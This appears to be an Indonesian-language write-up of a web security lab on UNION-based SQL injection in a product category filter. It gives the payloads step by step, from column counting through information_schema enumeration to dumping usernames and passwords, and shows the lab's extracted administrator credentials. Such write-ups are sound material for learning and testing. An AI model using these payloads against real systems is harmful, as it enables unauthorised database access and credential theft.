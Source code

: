 # Overview
web app vuln dengan SQLI di bagian product category filter

Hints:
- terdapat login page
- harus enumerate apa nama tabel
- didalam tabel terdapat kolom usernames dan passwords


Goals:
- guankan SQLI dan dapatkan creds `administrator` dan login sebagai user tersebut

# Analisis
cek apakah vuln SQLI dengan `'`

selanjutnya cek jumlah kolom yang digunakan query asli dengan `' order by 2#/--`

lalu cek kolom yang bisa hold string `' union select 'a','a'--`

selanjutnya kita bisa coba untuk cek apa db yang digunakan `' union select version(),null`
ternyata db yang digunakan adalah postgresql.

selanjutnya kita cari tahu nama-nama tabel yang ada dengan `' union select table_name,null from information_schema.tables#/--` . Dan hasilnya
```
...
user_defined_types
...
pg_statio_user_sequences
...
pg_user_mappings
...
pg_stat_xact_user_functions
...
user_mappings
...
pg_stat_user_tables
...
user_mapping_options
...
pg_stat_xact_user_tables
...
pg_statio_user_tables
...
users_tnxcwt
...
pg_stat_user_indexes
...
pg_statio_user_indexes
...
pg_user
...
pg_stat_user_functions
...
``` 

Terdapat beberapa tabel dengan keyword `user`, namun ada 2 tabel yang paling menarik, `pg_user` dan `users_tnxcwt`. Selanjutnya kita coba lihat list kolom dari tabel tersebut dengan cara `' union select column_name,null from information_schema.columns where table_name='nama_tabel'--`
- `pg_user` return internal error
- `users_tnxcwt` return 200 OK

Ketika kita lihat, berikut adalah nama kolom yang ada di tabel tersebut
```
password_mbmgam
email
username_chwjie
```
Selanjutnya kita dapat melihat isinya dengan cara `'+union+select+username_chwjie,password_mbmgam+from+users_tnxcwt--`, dan menghasilkan:
```
carlos
	vzdt8td2gdeyi2y81q7h
wiener
	s2iwkan47lyrbryz6p51
administrator
	6mpx1i8520jbls08amuj
```
selanjutnya kita dapat login dengan akun administrator untuk menyelesaikan challenge